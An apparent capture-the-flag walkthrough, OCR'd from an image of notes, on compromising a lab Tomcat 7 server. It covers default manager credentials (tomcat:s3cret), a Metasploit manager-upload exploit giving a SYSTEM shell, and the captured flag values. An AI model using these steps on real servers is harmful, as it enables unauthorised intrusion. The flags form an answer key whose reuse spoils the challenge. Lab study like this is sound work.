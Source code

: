 nmap -> apache tomcat 7.0.88 listening on port 8080
http://[machine IP]:8080/ -> Manager App with random credentials
Read the access denied page -> find usr:tomcat pwd:s3cret -> working admin credentials
sudo msfconsole -> search tomcat manager -> use multi/http/tomcat_mgr_upload
set HttpPassword HttpUsername RHOSTS LHOST RPORT
--> in meterpreter
shell
--> in shell
whoami
--> nt authority\system (== root)
cd C:\Users\Administrator\Desktop\flags
type "2 for the price of 1.txt"
|
v
user.txt
7004dbcef0f854e0fb401875f26ebd00
root.txt
04a8b36e1545a455393d067e772fe90e
